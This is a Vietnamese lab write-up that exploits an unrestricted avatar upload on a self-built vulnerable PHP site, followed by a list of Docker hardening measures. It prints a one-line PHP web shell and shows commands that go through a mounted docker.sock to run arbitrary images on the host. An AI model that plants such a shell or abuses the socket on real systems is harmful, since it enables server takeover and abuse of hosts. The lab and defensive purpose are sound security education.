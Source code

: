 Khai thác
Để bắt đầu quá trình xây dựng và thử nghiệm, chúng tôi tạo ra một trang web có lỗ hổng và xây dựng chúng bằng Docker. 
Việc xây dựng image được thực hiện qua việc sử dụng Dockerfile và Docker compose. Sau khi chạy lệnh “docker compose up”, sẽ có tập lệnh tự động đọc Dockerfile để tạo ra image, tải các image có sẵn trên DockerHub và tự động tạo ra các container. Việc xây dựng image trên Docker có thể đóng gói các ứng dụng và phụ thuộc của chúng vào một hệ thống duy nhất và có thể chạy trên nhiều máy chủ khác nhau mà không cần phải cài đặt các phần mềm và thư viện tương tự trên từng máy chủ. Điều này giúp cho việc triển khai ứng dụng trên môi trường sản xuất trở nên dễ dàng và nhanh chóng hơn.
Trong file “docker-compose.yml”, chúng ta đã thực hiện việc mount /var/run/docker.sock lên hệ thống container. Container cũng có thể truy cập vào Docker socket trên host thông qua đường dẫn “/custom/docker/docker.sock” trong container. 
Để bắt đầu, ta tiến hành khai thác lỗ hổng bảo mật có trên web.
Thu tập thông tin từ trang web, ta biết được những thông tin của trang web như sau:


Hình 3. 1 Các công nghệ sử dụng
Ở đây, ta có thể biết được một số thông tin như sau: 
	Trang web được xây dựng bằng ngôn ngữ PHP. 
	Trang web được chạy trên trên server Apache2. 3. Hệ điều hành của máy chủ là Debian
Khi vào trang website mà container tạo ra, ta được giao diện sau:
 
Hình 3. 2 Giao diện trang web
Vì khi vào trang web, trang web yêu cầu chúng ta đăng nhập, tuy nhiên, chúng ta lại không có tài khoản. Do đó, ta vào trang đăng kí tài khoản để tạo tài khoản đăng nhập vào trang web.
 
Hình 3. 3 Giao diện đăng kí tài khoản
Ở trang đăng kí tài khoản, ta thấy có một chức năng giúp ta có thể upload file lên để làm ảnh đại diện.
 	Ở đây, chúng ta chọn một file có tên là shell.php (Chúng ta chọn file có đuôi là “php” vì trang web này được xây dựng bằng PHP và chạy trên máy chủ Apache2) để tải lên.
Nội dung file shell.php như sau:
 
Hình 3. 4 Nội dung file shell.php
<?php

system($_GET['cmd']);
Giải thích nội dung của file shell.php:
1.	system():
	Hàm system() trong PHP được sử dụng để chạy một lệnh hệ thống (command) trên máy chủ nơi mã PHP được thực thi.
	Kết quả (output) của lệnh này sẽ được gửi trực tiếp tới trình duyệt của người dùng.
2.	$_GET['cmd']:
	$_GET là một mảng chứa các tham số được truyền qua URL bằng phương pháp GET.
Ở đây, đoạn mã đang lấy giá trị của tham số cmd từ URL, sau đó truyền nó làm đối số cho hàm system().

 
Hình 3. 5 Các thông tin from đăng kí

Khi nhấn Register, có xuất hiện thông báo “Registration successful! You can login.” . Điều này chứng tỏ ta có thể đăng kí thành công tài khoản.
 
Hình 3. 6 Thông báo đăng kí thành công
Sau đó chúng ta nhấn OK để tiếp tục đăng nhập.
Sau khi đăng nhập với tài khoản đăng kí, ta được giao diện như sau:
 
Hình 3. 7 Trang web sau khi đăng nhập

Tiếp theo, ta mở inspect để xác định được đường dẫn của file ảnh được lưu. Kết quả ta được như sau:
 
Hình 3.8 Nội dung HTML ở client
Ở đây, ta thấy đuợc khi upload file lên server thì tên file chỉ thêm một dãy số ngẫu nhiên mà không có phát hiện ra các file có thể thực thi trực tiếp qua Apache2. Cho nên, ta có thể khai thác lỗi bảo mật Upload file để có thể thực thi câu lệnh  và điều khiển server từ xa.
Khi chọn vào đường dẫn file ta tải lên, kết quả như sau:
 
Hình 3.9 Truy cập file chứa mã khai thác
Ở đây, khi thêm một parameter cmd vào đường dẫn URL, ta có thê thực thi lệnh trên server. Khi ta thêm vào thanh URL : ?cmd=id, ta được kết quả như sau:
 
Hình 3.10 Kết quả khi thực thi lệnh id
Kết quả thu được ta thấy:
	Ngươi dùng hiện tại là www-data
	Người dùng www-data thuộc nhóm docker.
Điều này chứng tỏ trên server có cài đặt docker và người dùng “www-data” có thể thực thi lệnh docker mà không cần sudo.
Khi thay lệnh “id” bằng lệnh “mount” ta thu được kết quả sau:
 
Hình 3.11 Kết quả khi thực hiện lệnh mount
Ở đây, ta thây có một socket của docker được mount vào server. Từ những dữ liệu trên, ta có thể suy đoán được rằng: 
	Server được xây dựng trên Docker
	Có thể rằng /var/run/docker.sock được mount vào container chạy website với đường dẫn /custom/docker/docker/sock
Từ những thông tin trên, ta có thể suy đoán được rằng ta khai thác lỗi Docker-In-Docker qua việc sử dụng socket được mount vào để run một docker bên ngoài máy host. 
Để chứng thực cho việc này, ta thay lệnh “mount” bằng lệnh “ docker -H unix:///custom/docker/docker.sock images” để kiểm tra xem liệu rằng có thực hiện được hay không. Kết quả thu dược là:
 
Hình 3.12 Kết quả khi thực thi lệnh docker -H
Ở đây, ta thu được danh sách các images đang có trên socket này. Điều này chứng tỏ suy đoán của chúng ta đã đúng.
Ở đây ta tiếp tục run một image bất kì, ta chọn image hello-world, kết quả như sau:
 
Hình 3.13 Kết quả khi run image hello-world
Tiếp theo, ta sẽ tiếp tục run một images với port 8085. Đây là một images mà tôi đã tạo với việc hiển thị dòng chữ “Hacked Detected” và đã được đẩy lên DockerHub với tên là: hacked_images_docker. Dòng lên được sử dụng là: docker -H unix:///custom/docker/docker.sock run -p 8085:80 hacked_images_docker. Kết quả thu đươc:
 
Hình 3.14 Kết quả khi run một images tên ph4n10m1808/hacked_images_docker
Ở đây, ta có thể chạy được một images khác trên máy host. Hacker có thể lợi dụng việc này để có thể tải lên các images độc hại lên máy host và gây hại cho máy host chạy các Docker Container này.
Đây là đoạn cấu hình bị sai gây lỗi trên:
 
Hình 3.15 Cấu hình lỗi ở file docker-compose.yaml
 
Hình 3.16 Cấu hình lỗi ở file Dockerfile
Ở đây, ta thấy được người quản trị hệ thống đã mount socket tử máy host sang container, sau đó đưa người dùng thường vào group docker khiến cho bất kì người dùng nào cũng có thể thực thi được docker không qua root.
Từ đó, dẫn đến việc các hacker có thể xâm nhập vào và chạy nhiều container trên máy host. Điều này dẫn đến việc gây tiêu tốn nhiều tài nguyên trên máy host, thậm chí có thể gây sập máy host. Nếu máy host ở trên các dịch vụ cloud như AWS, Google Cloud, … , việc sử dụng nhiều tài nguyên sẽ gây ra sự thất thoát tài chính vô cùng lớn. Do đó, lập trình viên và những người triển khai hệ thống máy chủ chúng ta nên lưu ý việc này để tránh gây ra những tổn thất lớn.
Ngoài ra, việc bảo mật những ứng dụng chạy trên container ở môi trường sản xuất cũng nên được chú trọng. Ở đây, trang web chạy trên container này bị lỗ hổng Upload file. Lỗ hổng này do lập trình viên không kiểm tra các file được tải lên trên server, từ đó dẫn đến việc server dễ bị tấn công

3.2. Một số biện pháp phòng chống.
Để phòng chống các lỗ hổng bảo mật Misconfiguration trên Docker, cần áp dụng một loạt các biện pháp bảo mật và cấu hình phù hợp nhằm đảm bảo an toàn cho hệ thống.
1. Hạn chế quyền --privileged và các quyền truy cập khác
Tránh sử dụng quyền --privileged khi khởi chạy container, vì quyền này cấp quá nhiều đặc quyền và dễ dẫn đến container breakout.
Chỉ cấp các quyền cần thiết: Sử dụng tùy chọn --cap-drop để loại bỏ các quyền không cần thiết và chỉ giữ lại những quyền tối thiểu cho container hoạt động.
2. Bảo mật Docker Socket
Không mount Docker socket (/var/run/docker.sock) vào container, vì điều này cho phép container kiểm soát Docker daemon và thao tác với các container khác trên host.
Sử dụng Docker API với xác thực: Nếu cần truy cập từ xa vào Docker daemon, cấu hình bảo mật bằng TLS và xác thực người dùng để ngăn chặn truy cập trái phép vào API.
3. Giới hạn quyền trong container
Chạy container với non-root user: Sử dụng --user để chỉ định một người dùng không có quyền root trong container, nhằm giảm nguy cơ tấn công nếu container bị xâm nhập.
Áp dụng chính sách AppArmor hoặc SELinux: Sử dụng các chính sách này để giới hạn quyền truy cập của container vào các tài nguyên hệ thống của host.
4. Quản lý cấu hình mạng của Docker
Phân tách mạng cho từng container hoặc nhóm container: Sử dụng các mạng riêng biệt (bridge networks) để cô lập các container khác nhau, giúp ngăn ngừa tấn công lateral movement.
Áp dụng firewall rules: Cấu hình firewall để kiểm soát và giới hạn các cổng mở mà Docker daemon sử dụng, chỉ cho phép truy cập từ các nguồn tin cậy.
5. Kiểm soát Volume và quản lý dữ liệu
Không mount volume nhạy cảm từ host: Tránh mount các volume từ hệ thống file host vào container trừ khi cần thiết. Khi mount, nên giới hạn quyền chỉ đọc để ngăn ngừa ghi dữ liệu vào các file nhạy cảm.
Sử dụng Docker Secrets và Configs: Thay vì lưu trữ thông tin nhạy cảm trong volume hoặc biến môi trường, Docker Secrets và Configs giúp quản lý và bảo vệ dữ liệu nhạy cảm một cách an toàn.
6. Cập nhật hình ảnh Docker và kiểm tra tính bảo mật
Sử dụng các image chính thức và được cập nhật thường xuyên: Chỉ sử dụng các image từ các nguồn uy tín hoặc từ các registry chính thức để giảm thiểu nguy cơ từ các image chứa mã độc.
Kiểm tra các lỗ hổng trong Docker image: Sử dụng các công cụ như Clair, Anchore, hoặc Trivy để quét và phát hiện các lỗ hổng trong image trước khi triển khai.
7. Bảo mật Docker API Daemon
Không mở cổng Docker API trên mạng công cộng: Hạn chế Docker API daemon chỉ có thể truy cập qua localhost hoặc thiết lập các whitelist IP để kiểm soát truy cập.
Sử dụng mã hóa TLS cho Docker API: Cấu hình bảo mật TLS cho Docker daemon khi cần truy cập từ xa để đảm bảo dữ liệu được truyền tải an toàn.
8. Sử dụng chính sách bảo mật Seccomp và cấu hình giới hạn tài nguyên
Kích hoạt Seccomp profile: Docker cung cấp một Seccomp profile mặc định nhằm giới hạn các syscall có thể gọi từ container, giúp ngăn chặn một số cuộc tấn công nhắm vào kernel.
Giới hạn tài nguyên cho container: Sử dụng các tùy chọn --memory và --cpus để giới hạn tài nguyên, ngăn chặn container tiêu thụ quá nhiều tài nguyên và gây ảnh hưởng đến hệ thống.
9. Tự động hóa kiểm tra bảo mật và cấu hình
Sử dụng công cụ tự động kiểm tra cấu hình Docker: Các công cụ như Docker Bench for Security có thể tự động kiểm tra cấu hình của Docker và đưa ra các đề xuất cải thiện bảo mật.
Áp dụng Continuous Integration/Continuous Deployment (CI/CD) với kiểm tra bảo mật: Thiết lập quy trình CI/CD với các bước kiểm tra bảo mật và phát hiện lỗ hổng để đảm bảo mọi thay đổi mới được kiểm duyệt trước khi triển khai.
10. Giám sát và phát hiện xâm nhập
Sử dụng các công cụ giám sát: Kết hợp các công cụ giám sát như Sysdig, Falco, hoặc Auditd để theo dõi hoạt động của container và phát hiện các hành vi bất thường.
Xây dựng hệ thống cảnh báo: Thiết lập cảnh báo cho các sự kiện đáng ngờ như tạo container mới không xác định hoặc truy cập không hợp lệ vào Docker daemon.

